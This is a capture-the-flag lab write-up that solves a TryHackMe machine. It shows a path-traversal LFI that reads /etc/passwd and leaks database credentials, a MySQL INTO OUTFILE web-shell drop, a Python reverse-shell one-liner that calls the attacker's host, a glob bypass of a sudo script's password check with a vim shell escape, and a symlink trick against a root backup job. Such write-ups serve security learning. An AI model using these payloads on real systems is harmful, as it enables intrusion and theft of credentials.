





# Born 2 Root

**Difficulty:** Hard
**Category:** Misc
**Source Code:** Available (image)
**Author:** 0utc4st
**Description:** Follow the path that calls to your heart, for it knows the way even when your mind is uncertain.
                 PS: Yes you need to create an account if you don't have one 😉

## Solution

we were given an incomplete QR code :


this means we need to fix it somehow to get the content of it.

one way to do that is to add another square in that empty field (we can use any online image editor to do that) :


after doing that, we can use this [website](https://merri.cx/qrazybox/) to try to fix the QR code, so we import the modified QR code image, then we go to `Tools > Extract QR Information`, and there we find the recovered content of the QR code :



we got this link : [https://qrco.de/beo3WA](https://qrco.de/beo3WA), following it, we endup in a private Tryhackme room :



this means we need to start the VM and solve this machine.

so we connect to the tryhackme vpn and start the machine

### Nmap Scan

after the machine spawns, we run an nmap scan on it

```plaintext
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 42:32:68:63:e4:a4:2d:82:8c:24:eb:88:ca:a3:65:bf (RSA)
|   256 d0:76:44:f7:b0:39:40:80:43:cb:c3:58:df:2b:c4:7b (ECDSA)
|_  256 92:3b:d7:06:13:c8:f4:df:8a:68:8d:39:42:e0:87:b2 (ED25519)
80/tcp   open     http    Apache httpd 2.4.18 ((Ubuntu))
| http-title: Login
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.18 (Ubuntu)
3306/tcp open     mysql   MySQL 5.7.33-0ubuntu0.16.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.33-0ubuntu0.16.04.1
|   Thread ID: 7
|   Capabilities flags: 65535
|   Some Capabilities: FoundRows, SupportsTransactions, LongPassword, Speaks41ProtocolOld, Support41Auth, InteractiveClient, DontAllowDatabaseTableColumn, IgnoreSigpipes, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, SupportsLoadDataLocal, SwitchToSSLAfterHandshake, LongColumnFlag, ODBCClient, Speaks41ProtocolNew, SupportsCompression, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: z\x1F9C\x07\x18{\x02M\x0Cc    JY\x03*Qb5(
|_  Auth Plugin Name: mysql_native_password
| ssl-cert: Subject: commonName=MySQL_Server_5.7.33_Auto_Generated_Server_Certificate
| Not valid before: 2024-01-02T20:12:03
|_Not valid after:  2033-12-30T20:12:03
|_ssl-date: TLS randomness does not represent time
```

we have 3 ports open :

- **PORT 22:** SSH
- **PORT 80:** HTTP
- **PORT 3306:** MYSQL

we start with the `http` port.

### Enumeration

when we visit the site, we get a login page :



we can register, so we create an account then login :


looks like a basic web store, trying to exploit the products pages for any sql injection won't yield anything.

if we check the source html of the page, we notice something interesting :


the page is getting the products images using `/fatch.php?image=PATH_TO_IMAGE`.

that's interesting, we can try to abuse it to get LFI :

```plaintext
└─$ curl 'http://10.10.165.19/fetch.php?image=../../../../etc/passwd'                                              
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
mysql:x:112:118:MySQL Server,,,:/nonexistent:/bin/false
achour:x:1002:1002::/home/achour:/bin/bash
```

we have LFI!

we see an existing user `achour` on the machine.

first let's try to get the source code of the main page of the website :

```php
└─$ curl 'http://10.10.165.19/fetch.php?image=../index.php'          
<?php
session_start();
require_once('db_connection.php');

if (!isset($_SESSION['user_id'])) {
    header('Location: login.php');
    exit();
}

$stmt = $conn->query("SELECT * FROM products");
$products = $stmt->fetchAll(PDO::FETCH_ASSOC);
?>
```
we see that `index.php` is requiring `db_connection.php`, let's read that file :

```php
└─$ curl 'http://10.10.165.19/fetch.php?image=../db_connection.php'
<?php

$host = 'localhost';
$db = 'app';
$user = 'dbuser';
$pass = 'Y0uC4n7Cr4ckTh1sDBP4ss!';

try {
    $conn = new PDO("mysql:host=$host;dbname=$db;charset=utf8", $user, $pass);
    $conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
} catch (PDOException $e) {
    die("Connection failed: " . $e->getMessage());
}
```
we got the database credentials `dbuser:Y0uC4n7Cr4ckTh1sDBP4ss!`

since mysql is open, let's try to connect to the database :

```plaintext
└─$ mysql -h $VMIP -u dbuser -p'Y0uC4n7Cr4ckTh1sDBP4ss!'    
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 45
Server version: 5.7.33-0ubuntu0.16.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```

we connected succefully.

### Foothold

there is nothing interesting in the database tables.

a way to leverage database access is trying to write a php web-shell to the web-app's root directory, let's try that :

```plaintext
MySQL [(none)]> SELECT '' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED by 0x3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E;
Query OK, 1 row affected (0.411 sec)
```

that worked, let's try to access the web shell and run commands :

```plaintext
└─$ curl 'http://10.10.165.19/shell.php?cmd=id'                    
uid=33(www-data) gid=33(www-data) groups=33(www-data),118(mysql)
```

and we have command execution as the user `www-data`, let's get a shell :

```plaintext
└─$ curl 'http://10.10.165.19/shell.php?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.17.114.124%22,4444));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22/bin/bash%22)%27'

...

└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.17.114.124] from (UNKNOWN) [10.10.165.19] 43788
www-data@Nexus:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),118(mysql)
```

and we have a shell as `www-data`

### Pivoting

let's run `sudo -l` :

```plaintext
www-data@Nexus:/$ sudo -l
Matching Defaults entries for www-data on Nexus:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_LIBRARY_PATH

User www-data may run the following commands on Nexus:
    (achour) NOPASSWD: /opt/update-shipment-details.sh
```

we can run `/opt/update-shipment-details.sh` as the user `achour`, let's inspect the content of that file :

```bash
#!/bin/bash

PASS=$(cat /home/achour/.editor-pass)

read -s -p "Enter your editor password : " INPUT_PASS
/usr/bin/echo

if [[ $PASS == $INPUT_PASS ]]; then
    echo "Password correct. Access granted."

    mysql -u dbuser -h localhost -p'Y0uC4n7Cr4ckTh1sDBP4ss!' -e 'USE app; SELECT address, phone FROM orders;' --silent | cut -d '|' -f 1 > /home/achour/shipment-details.txt

    vim /home/achour/shipment-details.txt
else
    echo "Incorrect password. Access denied."
fi
```

this script first saves a password that's in `/home/achour/.editor-pass` to a variable named `PASS`, then it prompt us for a password, if our given password matches with the `PASS` variable, it updates the `/home/achour/shipment-details.txt` file with latest shipment details from that web store database, then give us a `VIM` session to be able to edit the file.

if we can bypass the password check, we will get a `VIM` session as the user `achour` where we can execute shell commands in his context.

taking a closer look at the password checking logic, we spot a vulnerability.

the vulnerability here is due to the use of `==` inside `[[ ]]` in Bash, which performs pattern matching rather than a direct string comparison. This means that the user input (INPUT_PASS) is treated as a pattern, and if it includes glob characters like `*` or `?`, it can potentially match unintended strings.
For example, if the actual password (PASS) is `password123` and the user enters `*` as their password (INPUT_PASS), the pattern match will succeed because `*` matches any string, resulting in unauthorized access.

so let's run the script as the user `achour` and try giving it the character `*` as our password :

```plaintext
www-data@Nexus:/$ sudo -u achour /opt/update-shipment-details.sh
Enter your editor password : *
```



that worked, we got a `vim` window, to spawn a shell as the user `achour`, we run `:!/bin/bash` :

```plaintex
achour@Nexus:/$ id
uid=1002(achour) gid=1002(achour) groups=1002(achour)
```

and we got a shell as the user `achour`.

in his home directory with find the `.editor-pass` file that we saw earlier in the script, let's read it :

```plaintext
achour@Nexus:~$ cat .editor-pass
N3xusUs3r007
```

we have a password, let's try it on the user `achour` in `SSH` :

```plaintext
└─$ ssh achour@VMIP

...

achour@Nexus:~$ id
uid=1002(achour) gid=1002(achour) groups=1002(achour)
```

that worked, we have the password of the user `achour` and a better shell with ssh.

### Privilege Escalation

we run `pspy64` to inspect live running processes, and an interesting process appears :



we see that root is running `/bin/backup`

checking the content of that file, we find that it's a bash file :

```plaintext
achour@Nexus:/tmp$ file /bin/backup
/bin/backup: Bourne-Again shell script, ASCII text executable
```

let's read it's content :

```bash
#!/bin/bash

source_dir="/home/achour"
backup_dir="/var/backups"
backup_filename="achour_home.zip"

zip -r "$backup_dir/$backup_filename" "$source_dir"
chown achour:achour "$backup_dir/$backup_filename"
chmod 660 "$backup_dir/$backup_filename"
```

it's a simple script that zips the home directory of `achour` then copies the archive to `/var/backups/`.

looks pretty basic and secure, don't you think?

nope, since we have full access to the archived directory which is `achour`'s home directory, we can create a symlink that points to any file we want. once root zips the directory, it will include the file that the symlink points to, and after it places the archive in `/var/backups` we can retrieve it and extract it since it's setting the ownership of the zip file to `achour`.then we will get the content of target file in that symlink we did earlier.

let's try to read the root flag using this technique.

so we browse to `/home/achour`, then we create a symlink that points to `/root/root.txt` :

```plaintext
achour@Nexus:~$ ln -s /root/root.txt root
```

now we wait 1 minute for the cronjob to execute again, then we copy the generated zip file `/var/backups/achour_home.zip` to the `/tmp` directory then we extract it :

```plaintext
achour@Nexus:/tmp$ unzip achour_home.zip 
Archive:  achour_home.zip
   creating: home/achour/
 extracting: home/achour/.editor-pass  
 extracting: home/achour/user.txt    
  inflating: home/achour/.shipment-details.txt.swp  
  inflating: home/achour/shipment-details.txt  
   creating: home/achour/.cache/
 extracting: home/achour/.cache/motd.legal-displayed  
 extracting: home/achour/root
```

now let's get into the extracted directory and see if the root file is there :

```plaintext
achour@Nexus:/tmp$ cd home/achour/
achour@Nexus:/tmp/home/achour$ ls
root  shipment-details.txt  user.txt
achour@Nexus:/tmp/home/achour$ cat root 
NEXUS{66765defc7f1cbedbc8fbc9e055a81db}
```

that worked and we were able to get the root flag!

## Flag

`NEXUS{66765defc7f1cbedbc8fbc9e055a81db}`